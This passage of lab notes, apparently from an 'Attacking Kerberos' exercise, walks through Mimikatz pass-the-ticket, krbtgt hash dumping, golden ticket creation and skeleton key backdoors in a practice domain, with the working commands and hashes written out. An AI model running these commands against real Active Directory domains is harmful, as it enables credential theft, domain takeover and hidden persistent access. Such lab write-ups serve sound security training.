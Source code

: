 ![image-20200812145615968](Attacking kerberos.assets/image-20200812145615968.png)



changed from administrator to krbtgt or domain controller

```
kerberos::ptt <ticket>
```

![image-20200812150029003](Attacking kerberos.assets/image-20200812150029003.png)



### golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

![image-20200812150349577](Attacking kerberos.assets/image-20200812150349577.png)

We got NTLM hash for kerberos service now we can use it  to create a fake Ticket Granting Ticket. That will be used as a golden ticket to bypass anything in a domain

72cd714611b64cd4d5550cd2759db3f6

format of creating a golden ticket in mimikatz

```
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
```

![image-20200812150816732](Attacking kerberos.assets/image-20200812150816732.png)

successfully generated golden ticket.

### skeleton key

Along with maintaining access using golden and silver tickets mimikatz has  one other trick up its sleeves when it comes to attacking Kerberos.  Unlike the golden and silver ticket attacks a Kerberos backdoor is much  more subtle because it acts similar to a rootkit by implanting itself  into the memory of the domain forest allowing itself access to any of  the machines with a master password. 

**The Kerberos backdoor works by implanting a skeleton key that abuses the  way that the AS-REQ validates encrypted timestamps. A skeleton key only  works using Kerberos RC4 encryption.** 

The default hash for a mimikatz skeleton key is  *60BA4FCADC466C7A033C178194C03DF6* which makes the password -"*mimikatz*"

This will only be an overview section and will not require you to do  anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

![image-20200812151220829](Attacking kerberos.assets/image-20200812151220829.png)